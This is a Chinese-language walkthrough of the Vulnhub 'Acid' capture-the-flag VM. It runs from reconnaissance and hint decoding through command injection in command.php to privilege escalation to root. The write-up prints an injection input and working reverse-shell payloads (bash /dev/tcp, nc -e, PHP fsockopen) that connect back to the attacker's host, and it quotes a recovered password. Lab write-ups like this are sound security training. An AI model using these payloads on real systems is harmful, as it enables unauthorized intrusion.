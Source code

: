 ```yaml
---
title: Vulnhub-acid
---
```


# Vulnhub-acid

## 靶机信息

### 下载链接

[https://download.vulnhub.com/acid/Acid.rar](https://download.vulnhub.com/acid/Acid.rar)

### 靶机说明

Welcome to the world of Acid. Fairy tails uses secret keys to open the magical doors.

欢迎来到Acid的世界。童话故事需要使用秘密钥匙打开魔法门。

### 目标

获得root权限和flag。

### 运行环境

靶机：NAT连接，靶机自动获取IP。

攻击机：Widows11，kali linux2021.1

## 信息收集

### 目标发现以及端口服务识别

```shell
#确定目标机IP
nmap -sP 192.168.160.0/24 -oN acid-ip.txt
#确定目标机开放端口以及服务版本
nmap -p1-65535 -sV -oN acid-port.txt 192.168.160.191
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-1.png)

只发现web服务和Apache，只能从web漏洞或者Apache漏洞入手

```shell
Tcp 33447 Apache2.4.10 Ubuntu
```

## 漏洞挖掘

初步探测，该靶机Apache无可直接利用的漏洞，exp也没有，nessus扫描无果，总的来讲，直接一键拿shell不大可能，还是老老实实审计每个页面吧

首先进入该靶机的web界面（33447）端口

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-2.png)

没有什么可点击得，直接F12 审计下，发现一串编码:`0x643239334c6d70775a773d3d`

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-3.png)

0x是16进制编码，将值643239334c6d70775a773d3d进行ASCII hex转码，变成：d293LmpwZw==

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-6.png)

发现是base64编码，再进行解码，得到图片信息 wow.jpg

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-7.png)

根据经验在首页直接加目录打：`/image/wow.jpg` 或者 `/images/wow.jpg` 或者 `/icon/wow.jpg` (ps：网站的图片目录通常是这样命名)也可以利用dirbuster进行目录爆破，得到图片目录images

访问 `http://192.168.160.191:33447/images/wow.jpg` 得到图片

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-8.png)

将图片保存并用Notepad++打开，发现最下边有提示`3761656530663664353838656439393035656533376631366137633631306434`进行ASCII hex转码，得到 `7aee0f6d588ed9905ee37f16a7c610d4`，这是一串md5，解密可得63425，推测是一个密码或者ID![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-10.png)

观察首页title可发现一个目录/Challenge

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-4.png)

继续使用Dirbuster进行目录暴破/Challenge该目录下有cake.php、include.php、hacked.php

依此访问3个目录

访问cake.php

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-11.png)

提示我还有很长得路要走，观察页面title，发现有/Magic_Box目录存在

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-12.png)

点击login会跳转到index.php登录页面，需要email和密码才能登录。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-13.png)

访问include.php，这是一个文件包含漏洞页面，在输入框中输入 /etc/passwd 测试存在文件包含，但遗憾的是没有文件上传点

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-14.png)

访问hacked.php，需要输入ID，测试下之前从wow.jpg解密出来的数字：63425，然后，什么也没有发生

到这里就挺难受的了，一个可利用的点都未发现，对以上发现的页面用avws扫描，无注入无漏洞，该靶机安全？？？

这里想到上面在访问cake.php页面的时候，发现的页面title中的/Magic_Box目录，尝试扫描发现了两个目录low.php和command.php，尝试访问

low.php为空白

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-17.png)

command.php，这里好像存在命令注入

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-16.png)

可执行系统命令，输入`192.168.160.129;id`,查看response发现id命令执行成功，存在命令注入![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-18.png)

尝试利用命令注入反弹shell

kali开启nc，监听4444端口`nc -lvnp 4444`

初次尝试以下payload反弹，都出奇的失败了

```shell
#bash反弹shell
bash -i >& /dev/tcp/192.168.64.1/4444 0>&1
#nc反弹shell
nc -e /bin/bash -d 192.168.64.1 4444
```

水平不够，google来凑，通过php反弹shell成功，将如下payload进行URL编码后，在burp中发送：

```php
php -r '$sock=fsockopen("192.168.64.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-19.png)

kali中nc成功反弹，nc成功接收反弹shelll，但是无法执行su命令，回显su: must be run from a terminal 需要一个终端，这里直接抬一手python反弹交互终端

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

或者

```python
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
python /tmp/asdf.py
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-20.png)

查看/etc/passwd,发现需要关注的用户有：acid,saman,root

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-21.png)

查找每个用户的文件 `find / -user acid 2>/dev/null`

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-22.png)

发现/sbin/raw_vs_isi/hint.pcapng文件，这是一个网络流量抓包文件，用scp将其拷贝到kali上，并用Wireshark打开

```bash
scp /sbin/raw_vs_isi/hint.pcapng zhiji@192.168.160.129:/root
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-23.png)

追踪TCP流，发现saman的密码：1337hax0r

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-24.png)

su提权到saman

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-25.png)

然后sudo -i提权到root

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-26.png)

查看flag

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/vulnhub-acid-28.png)

```shell
You have successfully completed the challenge.
```

您已成功完成挑战。